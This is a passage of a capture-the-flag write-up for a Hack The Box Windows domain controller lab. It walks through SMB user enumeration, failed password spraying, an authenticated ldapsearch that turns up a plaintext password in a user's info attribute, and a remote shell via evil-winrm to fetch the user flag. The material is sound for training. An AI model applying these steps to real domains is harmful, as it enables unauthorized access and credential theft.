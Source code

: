```bash
SMB         10.10.11.174    445    DC               daughtler.mabel               2022-05-28 11:15:26 0        
SMB         10.10.11.174    445    DC               stoll.rachelle                2022-05-28 11:15:42 0        
SMB         10.10.11.174    445    DC               ford.victoria                 2022-05-28 11:15:58 0        
SMB         10.10.11.174    445    DC               [*] Enumerated 20 local users: SUPPORT
```

In CTFs as in the real world, password reuse is very common, so we create a ```users.txt``` file and we use netexec to attempt password spraying, unfortunately without success.

Since the user is called ldap, and the executable is executing a ldap query with the password we found, we can try enumerating ldap to see if we find any hidden passwords or clues.
```bash
ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7********************' -b 'dc=support,dc=htb' > ldapsearch.txt
```
Examining the ```ldapsearch.txt``` that contains the results, we find an interesting string with the name of ```info``` that seems to containg what looks like a password for the user ```support```
```bash
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Iron*************************
```

Looking back at the ```nmap``` scan, we see that port ```5985```which is used for windows remote management is open, so we attempt to login with the new potential password we found.
```bash
 evil-winrm -i 10.10.11.174 -u support -p 'Iron*************************' 

*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
*Evil-WinRM* PS C:\Users\support\Documents> hostname
dc
*Evil-WinRM* PS C:\Users\support\Documents> dir C:\Users\support\Desktop


    Directory: C:\Users\support\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         5/24/2025   3:18 AM             34 user.txt
```
And we are in, we can now grab the user flag with the command ```type user.txt```

Since we are against a domain controller, and have a valid user, we can use ```bloodhound``` to enumerate the domain further.

For a complete guide on how to setup bloodhound, there is a great video byTyler Ramsbey [here](https://www.youtube.com/watch?v=RhdhLwZHZmU&t=431s).
